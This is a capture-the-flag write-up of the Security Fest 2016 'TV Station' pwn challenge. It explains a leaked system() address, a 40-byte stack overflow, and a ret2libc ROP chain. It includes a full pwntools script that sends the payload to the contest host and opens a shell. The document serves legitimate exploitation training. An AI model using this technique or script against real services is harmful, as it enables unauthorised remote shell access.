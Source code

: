```yaml
---
layout: post
title: Tvstation
category: Security Fest 2016
---
```


Hi , this a task from securityfest2016 "TV Station - Pwn (100)"

so here i will talk about my write up in securityfest2016 
i just play for fun so i solved some tasks (web,rev,pwn) and then stop playing because it was boring to play alone 
and change from categorie to another 

so lets start

this task give us a simple menu : 

```
=== TV Station - Control Panel ===
   1) Show uptime
   2) Show current user
   3) Exit
   
```

so the first show us the time 
```
 16:30:32 up 10 days, 14:31,  1 user,  load average: 1.00, 0.99, 0.88
```

and the second run system('id')
but when we reverse the code we get that when we send 4 we get 

```
=== TV Station - Debug Menu ===
[Debug menu] system is @0x7fa4619045f0
[Debug menu] Enter cmd:

```

and here where we start :D

we get the address of system and in the cmd we have buffer overflow but :/ aslr / Nx  : on

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

so what we need is to run system('/bin/sh')

The buffer is expecting 40 bytes. Anything over that will start to write outside 

We need now : 

1. Lib add (nm -D libc-2.19.so | grep __libc_system).
2. Get pop rdi.
3. Cal @add system.
4. Cal @add "/bin/sh"


and our payload will be : "A*40+add_pop_rdi+add_binsh+add_sys"

after some calcule :

we write the code 

```
#!/usr/bin/python
from pwn import *

s = remote("pwn2.securityfest.ctf.rocks", 3000)
b = ""

print s.recvuntil(": ")
s.sendline("4")
s.recvuntil("@0x")

# get system add from the result
system = s.recv(12)
b = int(system,16) - 0x465f0 #0x465f0 from lib

s.recvuntil("cmd:")

#calcule the add of "/bin/sh" and "pop rdi"
binsh = b + 0x17ca63
poprdi = b + 0x22b9a

#generate the payload for 64 bit
payload = ""
payload += "A"*40
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(int(system,16))

s.sendline(payload)

s.interactive()

```


and pwned :D 

![Screenshot](pwn.PNG)
